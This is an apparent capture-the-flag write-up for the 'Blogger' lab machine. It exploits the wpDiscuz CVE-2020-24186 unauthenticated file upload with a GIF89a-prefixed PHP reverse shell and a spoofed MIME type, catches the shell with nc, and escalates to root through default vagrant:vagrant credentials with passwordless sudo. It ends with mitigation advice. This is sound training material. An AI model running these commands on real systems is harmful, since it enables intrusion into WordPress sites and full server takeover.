



<!-- writeup-meta
title: Blogger
platform: Proving Grounds Play
os: Linux
difficulty: Easy
ip: 192.168.131.217
date: 2026-10-18
tags:
  - writeup
  - linux
  - wordpress
  - wpdiscuz
  - cve-2020-24186
  - default-creds
  - privesc
-->
# Blogger

> [!NOTE]
> **TL;DR** — A WordPress site is buried under `/assets/fonts/blog/` and served on the vhost `blogger.pg`. Its wpDiscuz plugin (7.0.0–7.0.4) has an unauthenticated arbitrary file upload (CVE-2020-24186): fake an image with a `GIF89a;` magic byte and spoof the MIME type to drop a PHP shell as `www-data`. The `vagrant` user then has the default `vagrant:vagrant` password and `sudo NOPASSWD: ALL` — instant root.
>
> **Path:** hidden WordPress (vhost `blogger.pg`) → wpDiscuz CVE-2020-24186 unauth upload → `www-data` → `vagrant:vagrant` default creds → `sudo NOPASSWD` → root

## 1. Recon

### 1.1 Nmap

```shellsession
$ nmap -Av -sS -p- 192.168.131.217
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Blogger | Home
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

**Open ports / services:**

| Port | Service | Version | Notes |
|---|---|---|---|
| 22 | SSH | OpenSSH 7.2p2 | No creds yet |
| 80 | HTTP | Apache 2.4.18 | A "Blogger" portfolio site — start here |

The landing page is a static "programmer portfolio" themed around a user named **James**:


> [!NOTE]
> **Reasoning:** Only SSH and HTTP, and SSH needs creds I don't have. Everything starts on port 80 — the static site is a wrapper, so the real target is whatever dynamic content the directory brute-force turns up.

### 1.2 Web enumeration

feroxbuster returns mostly static theme assets, but one branch is the giveaway — a full **WordPress** tree buried several directories deep under `/assets/fonts/blog/`:

```shellsession
$ feroxbuster -u http://192.168.131.217
301      GET      http://192.168.131.217/assets/fonts/blog => .../blog/
301      GET      http://192.168.131.217/assets/fonts/blog/wp-admin => .../wp-admin/
301      GET      http://192.168.131.217/assets/fonts/blog/wp-content => .../wp-content/
301      GET      http://192.168.131.217/assets/fonts/blog/wp-includes => .../wp-includes/
```

`/assets/fonts/blog/wp-admin` redirects to `http://blogger.pg`, so the site expects a vhost. Add it to `/etc/hosts`:

```shellsession
$ echo "192.168.131.217 blogger.pg" | sudo tee -a /etc/hosts
```

The blog index then renders at `http://blogger.pg/assets/fonts/blog/`. Every post is authored by **J@M3S**:



`wp-login.php` confirms that username is valid — a password error (not a username error) means `j@m3s` exists:



### 1.3 Plugin enumeration

Browsing `wp-content/uploads` turns up a PHP reverse shell dated **2022-08-09**. Since the box resets to a clean image on every revert, this can't be another player's leftover — it's baked into the image by the author, a deliberate breadcrumb pointing at the file-upload vector:



`wpscan` names the actual bug — a vulnerable **wpDiscuz** plugin:

```
[!] Title: Comments - wpDiscuz 7.0.0 - 7.0.4 - Unauthenticated Arbitrary File Upload
 |     Fixed in: 7.0.5
 |     References:
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-24186
 |      - https://www.wordfence.com/blog/2020/07/critical-arbitrary-file-upload-vulnerability-patched-in-wpdiscuz-plugin/
```

> [!WARNING]
> **Rabbit hole:** I kicked off a `hydra` brute-force against `wp-login.php` for `j@m3s` in parallel — it never landed, and it wasn't needed. The wpDiscuz bug is **unauthenticated**, so login creds are irrelevant. Check for known plugin CVEs (`wpscan`) before grinding a brute-force.

## 2. Foothold

> [!IMPORTANT]
> **Vulnerability:** wpDiscuz 7.0.0–7.0.4 (CVE-2020-24186). The comment-attachment uploader trusts the client-supplied MIME type and doesn't properly verify file contents, so a PHP payload disguised as an image is saved to a web-reachable path and executes.

### 2.1 Grab the upload nonce

The uploader needs a per-post security nonce (`wmuSecurity`). Scrape it from any published post:

```shellsession
$ curl -s http://blogger.pg/assets/fonts/blog/?p=29 | grep -oP 'wmuSecurity":"\K\w+'
[REDACTED]
```

### 2.2 Upload the shell

Take a PHP reverse shell (pentestmonkey, e.g. from [revshells.com](https://www.revshells.com/)), set your LHOST/LPORT, and prepend a `GIF89a;` magic byte on the first line so content-sniffing sees an image:

```shellsession
$ (echo 'GIF89a;'; cat pentestmonkey.php) > shell.php
```

Then POST it to `admin-ajax.php` with the `wmuUploadFiles` action, spoofing the MIME type to `image/jpeg`:

```shellsession
$ curl -s "http://blogger.pg/assets/fonts/blog/wp-admin/admin-ajax.php" \
    -F "action=wmuUploadFiles" \
    -F "wmu_nonce=[REDACTED]" \
    -F "wmuAttachmentsData=undefined" \
    -F "postId=1" \
    -F "wmu_files[0]=@shell.php;type=image/jpeg;filename=shell.php"
{"success":true,"data":{ ... "url":"http://blogger.pg/assets/fonts/blog/wp-content/uploads/2026/10/shell-1792319277.731.php" ... }}
```

The JSON response hands back the exact upload path.

### 2.3 Shell

Start a listener, then request the uploaded shell to trigger it:

```shellsession
$ nc -lnvp 4444
listening on [any] 4444 ...
$ curl -s http://blogger.pg/assets/fonts/blog/wp-content/uploads/2026/10/shell-1792319277.731.php
```

Caught the callback:

```shellsession
connect to [<LHOST>] from (UNKNOWN) [192.168.182.217] 38720
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Stabilise the TTY:

```shellsession
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl-Z
$ stty raw -echo; fg
$ export TERM=xterm-256color
```

The site's author **James** maps to the Linux user `james`, and his flag is world-readable:

```shellsession
www-data@lab-pg-ubuntu16-blogger-240-132:/$ cat /home/james/local.txt
[REDACTED]
```

- **Initial access as:** `www-data`
- **local.txt:** `[REDACTED]`

## 3. Privilege Escalation

### 3.1 Enumeration — the user accounts

Three home directories stand out:

```shellsession
www-data@lab-pg-ubuntu16-blogger-240-132:/$ ls /home
james  ubuntu  vagrant
```

`vagrant` is the tell. [Vagrant](https://www.vagrantup.com/) is HashiCorp's VM-provisioning tool, and the boxes it builds ship with a well-known default account — `vagrant:vagrant` — usually wired up for passwordless `sudo` so automation can run unattended.

### 3.2 Exploitation — default creds → sudo

The default password works:

```shellsession
www-data@lab-pg-ubuntu16-blogger-240-132:/home$ su vagrant      # password: vagrant
vagrant@lab-pg-ubuntu16-blogger-240-132:/home$ id
uid=1000(vagrant) gid=1000(vagrant) groups=1000(vagrant)
```

And `vagrant` can run anything as root without a password:

```shellsession
vagrant@lab-pg-ubuntu16-blogger-240-132:~$ sudo -l
User vagrant may run the following commands on lab-pg-ubuntu16-blogger-240-132:
    (ALL) NOPASSWD: ALL
```

### 3.3 Root

```shellsession
vagrant@lab-pg-ubuntu16-blogger-240-132:~$ sudo su -
root@lab-pg-ubuntu16-blogger-240-132:~# id
uid=0(root) gid=0(root) groups=0(root)
root@lab-pg-ubuntu16-blogger-240-132:~# cat proof.txt
[REDACTED]
```

- **Escalated to:** `root`
- **proof.txt:** `[REDACTED]`

> [!TIP]
> **Why it works:** a Vagrant-provisioned image keeps its default `vagrant:vagrant` account and the passwordless-sudo rule it uses for provisioning. When that image is shipped as a target (or into production) without stripping those defaults, the account is a free root. Whenever you see a `vagrant` home dir, try the default creds.

## 4. Lessons Learned

- **Enumerate recursively and read the odd paths.** The WordPress install was hidden at `/assets/fonts/blog/` — feroxbuster's recursion is what surfaced `wp-admin`. A shallow scan would have missed it.

- **A redirect to a hostname means add a vhost.** `wp-admin` bouncing to `blogger.pg` was the cue to drop it in `/etc/hosts`; only then did the site render properly.

- **Look for plugin CVEs before brute-forcing.** Confirming `j@m3s` was valid tempted a `hydra` run, but `wpscan` found an *unauthenticated* upload bug — no creds needed. The brute-force was wasted effort.

- **Artifacts that survive a reset are intentional clues.** The planted shell was dated 2022 and persists through every revert, so it's placed by the box author — a hint about the vector.

- **Recognise platform defaults.** `vagrant:vagrant` is an instant win on any Vagrant-built box; the same goes for other appliance defaults.

- **New technique for my notes:** wpDiscuz CVE-2020-24186 unauth upload (`GIF89a;` magic byte + MIME spoof); Vagrant default creds.

## 5. Mitigation

- **Patch wpDiscuz:** upgrade to ≥ 7.0.5. The uploader must validate real file content and never store executable PHP under a web-served uploads directory.

- **Remove default accounts:** delete or lock the `vagrant` account and its passwordless-sudo rule before a box leaves the provisioning stage.

- **WordPress hygiene:** keep core and plugins updated, restrict `wp-admin`, and don't rely on an obscured install path for security — directory brute-forcing finds it.

## References

- [Wordfence — wpDiscuz arbitrary file upload (CVE-2020-24186)](https://www.wordfence.com/blog/2020/07/critical-arbitrary-file-upload-vulnerability-patched-in-wpdiscuz-plugin/)
- [WPScan — wpDiscuz 7.0.0–7.0.4 unauthenticated upload](https://wpscan.com/vulnerability/92ae2765-dac8-49dc-a361-99c799573e61)
- [revshells.com — reverse shell generator](https://www.revshells.com/)
